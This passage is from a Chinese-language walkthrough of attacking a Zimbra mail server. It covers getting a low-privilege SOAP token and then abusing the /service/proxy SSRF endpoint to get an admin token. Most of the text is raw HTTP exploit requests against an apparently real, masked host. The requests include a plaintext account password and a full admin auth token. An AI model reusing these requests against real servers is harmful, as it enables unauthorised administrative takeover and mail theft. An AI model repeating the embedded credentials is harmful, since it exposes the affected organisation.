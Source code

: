 
第二步：获取低权限token

![](images/15896908955508.png)


从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

POST请求包如下：


```bash
POST /service/soap HTTP/1.1  
Host: mail.****.com  
User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 467  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1  

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
   <soap:Header>  
       <context xmlns="urn:zimbra">  
           <userAgent name="ZimbraWebClient" version="5.0.15_GA_2851"/>  
       </context>  
   </soap:Header>  
   <soap:Body>  
     <AuthRequest xmlns="urn:zimbraAccount">  
        <account by="adminName">zimbra</account>  
        <password>GzXaU76_s5</password>  
     </AuthRequest>  
   </soap:Body>  
</soap:Envelope>
```

第三步、利用SSRF获取admin权限token

![](images/15896909153776.png)


将上一步获取到了低权限token添加到cookie中，将xmlns="urn:zimbraAccount"修改为xmlns="urn:zimbraAdmin"，在Host字段末尾添加“:7071”，URL中的target要使用https协议。然后发送请求即可获得admin权限的token。

POST请求包如下：


```bash
POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
Host: mail.****.com:7071  
User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/
Content-Type: application/soap+xml  
Content-Length: 465  
Connection: close  
Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
Upgrade-Insecure-Requests: 1  

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
   <soap:Header>  
```